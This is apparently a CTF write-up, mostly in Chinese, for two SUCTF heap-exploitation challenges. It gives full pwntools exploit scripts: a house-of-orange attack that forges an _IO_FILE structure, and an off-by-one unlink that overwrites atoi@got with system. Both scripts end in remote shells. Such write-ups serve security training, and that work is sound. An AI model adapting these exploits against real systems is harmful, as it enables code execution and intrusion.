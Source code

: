 # Note

典型的house-of-orange

先调用Pandora函数把0号和1号堆free

再调用show显示0号堆以此泄露libc

此时存在一块unsorted bin了，又因为add函数中可以往堆中进行越界写，直接构造file_io结构

exp:
	
	# coding:utf-8
	#!/usr/bin/env python2
	import copy
	from ctypes import *
	from pwn import *
	elf = ELF('./note')
	LOCAL = 0
	if LOCAL:
		libc = ELF("./libc-2.24.so")
		p = process('./note',env={"LD_PRELOAD":"./libc-2.24.so"})
		context.log_level = 'debug'
	else:
		libc = ELF('./libc6_2.24-12ubuntu1_amd64.so')
		p = remote('pwn.suctf.asuri.org',20003)#47.104.16.75 8997
	#    context.log_level = 'debug'
	
	def z(a=''):
		gdb.attach(p,a)
		if a == '':
			raw_input()
	
	def menu(index):
		p.recvuntil('Choice>>')
		p.sendline(str(index))
	
	def Add(size,Content):
		menu(1)
		p.recvuntil('Size:')
		p.sendline(str(size))
		p.recvuntil('Content:')
		p.sendline(Content)
	
	def Show(index):
		menu(2)
		p.recvuntil('Index:')
		p.sendline(str(index))
	
	def Pandora():
		menu(3)
		p.recvuntil('This is a Pandora box,are you sure to open it?(yes:1)')
		p.sendline(str(1))
	
	Add(0x88,'aaaaaaaa')
	Pandora()
	Show(0)
	p.recvuntil('Content:')
	data = u64(p.recv(6).ljust(8,'\x00'))
	print 'data:' + hex(data)
	off = 0x7f0373c4eb78 - 0x7f0373c4eb10
	libc_base = data - off - libc.symbols['__malloc_hook']
	print 'libc_base:' + hex(libc_base)
	
	system = libc_base + libc.symbols['system']
	binsh = libc_base + libc.search('/bin/sh\x00').next()
	print 'off:' + hex(libc.symbols['_IO_file_jumps'] + (0x7f3219d1d4c0 -  0x7f3219d1d400))
	
	
	_IO_str_jumps = libc.symbols['_IO_file_jumps'] + (0x7f3219d1d4c0 -  0x7f3219d1d400) + libc_base
	_IO_list_all = libc_base + libc.symbols['_IO_list_all']
	print 'system:' + hex(system)
	print 'binsh:' + hex(binsh)
	print '_IO_str_jumps:' + hex(_IO_str_jumps)
	print '_IO_list_all:' + hex(_IO_list_all)
	
	
	from FILE import *
	context.arch = 'amd64'
	
	payload = 'a'*0x80
	fake_file = IO_FILE_plus_struct()
	fake_file._flags = 0
	fake_file._IO_read_ptr = 0x61
	fake_file._IO_read_base =_IO_list_all - 0x10
	fake_file._IO_write_base = 0
	fake_file._IO_write_ptr = 0x7fffffffffffffff
	fake_file._IO_buf_base = 0
	fake_file._IO_buf_end = (binsh-100)/2
	fake_file._mode = 0
	fake_file.vtable =_IO_str_jumps
	payload += str(fake_file).ljust(0xe0,'\x00')+p64(system)
	
	Add(0x80, payload)
	p.interactive()

# Heap

基础的off-by-one

直接unlink,再泄露libc,再改写atoi@got为system即可

exp:

	# coding:utf-8
	#!/usr/bin/env python2
	import copy
	from ctypes import *
	from pwn import *
	elf = ELF('./offbyone')
	libc = ELF("/home/moonagirl/moonagirl/libc/libc_local_x64")
	LOCAL = 0
	if LOCAL:
	    p = process('./offbyone')#,env={"LD_PRELOAD":"./libc-2.24.so"})
	    context.log_level = 'debug'
	else:
	    p = remote('pwn.suctf.asuri.org',20004)#47.104.16.75 8997
	#    context.log_level = 'debug'
	
	def z(a=''):
		gdb.attach(p,a)
		if a == '':
			raw_input()
	
	def menu(id):
		p.recvuntil('4:edit\n')
		p.sendline(str(id))
	
	def Alloc(size,content):
		menu(1)
		p.recvuntil('input len\n')
		p.sendline(str(size))
		p.recvuntil('input your data\n')
		p.send(content)
	
	def Show(index):
		menu(3)
		p.recvuntil('input id\n')
		p.sendline(str(index))
	
	def Delete(index):
		menu(2)
		p.recvuntil('input id\n')
		p.sendline(str(index))
	
	def Edit(index,content):
		menu(4)
		p.recvuntil('input id\n')
		p.sendline(str(index))
		p.recvuntil('input your data\n')
		p.send(content)
	
	Alloc(0xf0,'a'*0xf0)#0
	Alloc(0xf0,'a'*10)#1
	Alloc(0xf0,'a'*10)#2
	Alloc(0xf0,'a'*10)#3
	Alloc(0xf0,'a'*0xf0)#4
	Alloc(0x80,'a'*0x80)#5
	Alloc(0x80,'a'*0x80)#6
	
	Delete(3)
	
	Alloc(0xf8,'a'*0xf8)#3
	
	data = p64(0) + p64(0xf0) + p64(0x6020D8 - 0x18) + p64(0x6020D8 - 0x10)
	data = data.ljust(0xf0)
	data += p64(0xf0)  + '\x00'
	Edit(3,data)
	
	Delete(4)
	
	Edit(3,'\x68\x20\x60\x00')
	
	Show(0)
	
	data = u64(p.recv(6).ljust(8,'\x00'))
	print 'atoi_addr:' + hex(data)
	
	libc_base = data - libc.symbols['atoi']
	system_addr = libc_base + libc.symbols['system']
	print 'system_addr:' + hex(system_addr)
	print p64(system_addr)[0:6]
	Edit(0,p64(system_addr)[0:6])
	
	p.interactive()

